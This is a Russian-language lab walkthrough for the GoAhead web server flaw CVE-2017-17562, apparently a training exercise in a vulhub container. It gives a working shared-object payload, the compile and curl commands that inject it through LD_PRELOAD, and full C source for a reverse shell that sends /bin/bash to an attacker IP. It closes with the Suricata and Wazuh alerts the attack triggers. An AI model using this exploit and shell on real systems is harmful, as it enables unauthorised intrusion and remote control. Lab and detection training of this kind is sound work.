

# CVE-2017-17562

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-17562](https://nvd.nist.gov/vuln/detail/CVE-2017-17562)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562)
* [https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/](https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/)

GoAhead — это встраиваемый веб-сервер компании Embedthis, который используется в продуктах Oracle, IBM, HP и других известных производителей.

Embedthis GoAhead до версии 3.6.5 позволяет удаленно выполнить код, если включен CGI и CGI-программа динамически компонуется. Это происходит в результате инициализации окружения форк CGI-скриптов с помощью недоверенных параметров HTTP-запроса в функции cgiHandler в файле cgi.c. В сочетании с динамическим компоновщиком glibc такое поведение может быть использовано для удаленного выполнения кода с помощью специальных имен параметров, таких как LD\_PRELOAD. Злоумышленник может поместить полезную нагрузку разделяемого объекта в тело запроса и сослаться на него, используя /proc/self/fd/0.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2017-17562

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница, сигнализирующая об успешном старте сервера

<figure><figcaption></figcaption></figure>

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC payload.c -o payload.so
```

Где payload.c - это файл с вышеупомянутым кодом

<figure><figcaption></figcaption></figure>

Используйте утилиту curl, чтобы произвести атаку:

```
curl -X POST --data-binary @payload.so "http://ваш-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

В ответе мы можем видеть, что появился заголовок hello со значением World!, что свидетельствует об успешном выполнении кода

<figure><figcaption></figcaption></figure>

Для получения обратной оболочки проведите те же манипуляции с данным кодом:

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

Где в переменную server\_ip впишите ip машины, на которую хотите получить оболочку

<figure><figcaption></figcaption></figure>

После отправки POST-запроса мы получаем обратную оболочку уязвимой машины

<figure><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata о предположительно вредоносных запросах и о загрузке исполняемых файлов на уязвимый хост

<figure><figcaption></figcaption></figure>
